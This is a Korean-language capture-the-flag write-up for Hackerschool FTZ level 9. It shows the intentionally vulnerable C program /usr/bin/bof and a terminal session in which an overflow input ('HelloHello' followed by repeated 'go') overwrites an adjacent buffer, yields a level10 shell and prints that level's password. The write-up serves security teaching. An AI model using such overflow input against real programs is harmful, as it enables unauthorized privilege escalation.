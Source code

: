 # Hackerschool FTZ Level 09

```
login as: level9
level9@192.168.18.131's password:
[level9@ftz level9]$ ls
hint  public_html  tmp
[level9@ftz level9]$ cat hint


다음은 /usr/bin/bof의 소스이다.

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

main(){

  char buf2[10];
  char buf[10];

  printf("It can be overflow : ");
  fgets(buf,40,stdin);

  if ( strncmp(buf2, "go", 2) == 0 )
   {
        printf("Good Skill!\n");
        setreuid( 3010, 3010 );
        system("/bin/bash");
   }

}

이를 이용하여 level10의 권한을 얻어라.


[level9@ftz level9]$ /usr/bin/bof Hello
It can be overflow : Hello
[level9@ftz level9]$ /usr/bin/bof Hello
It can be overflow :
[level9@ftz level9]$ /usr/bin/bof
It can be overflow : HelloHellogogogogogogogogogogo
Good Skill!
[level10@ftz level9]$ my-pass

Level10 Password is "interesting to hack!".

[level10@ftz level9]$
```

`Buffer Overflow` 에 해 공부할 수 있는 문제이다.

`/usr/bin/bof` 의 소스를 보면 `buf2` 의 앞 2글자가 `go` 라면 다음 레벨 유저의 쉘을 실행시켜준다.

`fgets` 함수에서 40 글자를 입력받기에 버퍼오버플로우 취약점이 터진다.

`buf` 배열과 `buf2` 배열의 거리를 확실히 모르니, 10글자 이후에 계속 `go` 를 입력하여 풀었다.

```
[level9@ftz level9]$ /usr/bin/bof
It can be overflow : HelloHellogogogogogogogogogogo
Good Skill!
[level10@ftz level9]$
```